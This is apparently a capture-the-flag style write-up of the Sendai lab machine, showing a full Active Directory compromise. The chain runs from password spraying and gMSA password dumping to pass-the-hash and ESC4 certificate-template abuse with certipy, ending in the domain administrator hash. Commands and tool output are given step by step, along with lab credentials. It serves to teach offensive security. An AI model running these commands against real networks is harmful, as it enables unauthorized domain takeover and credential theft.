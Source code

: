 
![](Sendai_Cover.png)

## INFO

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

Guest Level Access in the smb share . Lets Explore !

![](Guest_ACcess.png)


![](Shares_Content.png)

We found potential user accounts and a note which states that ``All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.`` Which is a good sign for a penetration-tester. 


## INITIAL ACCESS

Checkin' with common credentials !
```
└─# crackmapexec smb 10.10.127.65 -u user_lst -p '' --continue-on-success

[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Susan.Harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Lisa.Williams:Summer2023 STATUS_PASSWORD_MUST_CHANGE
```

Changing the password ;

```
─# impacket-changepasswd sendai.vl/Lisa.Williams:Summer2023@10.10.127.65
```

![](Password_Change.png)


As we found valid domain user . Now it time to enumerate shares , ADCS , run bloodhound.

Now , we got access to the config share , where there is .sqlconfig file with credentials of the database. But mssql isnt accessible via external network . Gotta wait till we breach the machine !


![](sql.config.png)


```
└─# bloodhound-python --username lisa.williams --password 'p@ssw0rd' --nameserver 10.10.127.65 --domain sendai.vl --domain-controller DC.sendai.vl --dns-tcp --collectionmethod all --zip
```



![](Bloodhound_.png)

Being member of the Support Group we have `Generic All` privilege !

```
Full control of a group allows you to directly modify group membership of the group.
```

Why this attack ? Members of ADMSVC group can `ReadGMSAPassword` od the MGTSVC$ account which can PSRemote to the machine.


![](Bloodhound_Gmsa.png)


Lets attack :
--> Add lisa.williams to the ADMSVC group .

```
└─# net rpc group addmem "ADMSVC" "lisa.williams" -U "sendai.vl"/"lisa.williams"%"p@ssw0rd" -S "dc.sendai.vl"
```

--> Read GMSA Password .

```
└─# python gMSADumper.py -u lisa.williams -p 'p@ssw0rd' -d sendai.vl
```

![](GMSA_CREDS.png)

Cool ! We got mgtsvc$ account hash.

```
└─# evil-winrm -i sendai.vl -u mgtsvc$ -H 582bdf7c5328ca2bf3de975a6ed4b7c7
```


# ESC4 Attack

Running  [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) We found creds of clifford.davey.

![](Clifford_Davey.png)

clifford.davey  ::  RFmoB2WplgE_3p 

This guy is CA-OPERATOR !

![](CA-Operator.png)



```
└─# certipy-ad find -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -enabled -dc-ip 10.10.127.65 -stdout -vulnerable
```


![](ESC4_CA.png)


Lets attack the vulnerability and gain access as DA. [ESC4_Attack](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

```
└─# certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```


The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```
└─# certipy-ad req -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -ca 'sendai-DC-CA' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.127.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Cool ! The DC has been pwned !!



As we have mssql credentials , and service running . We can exploit it using the silver tickets.

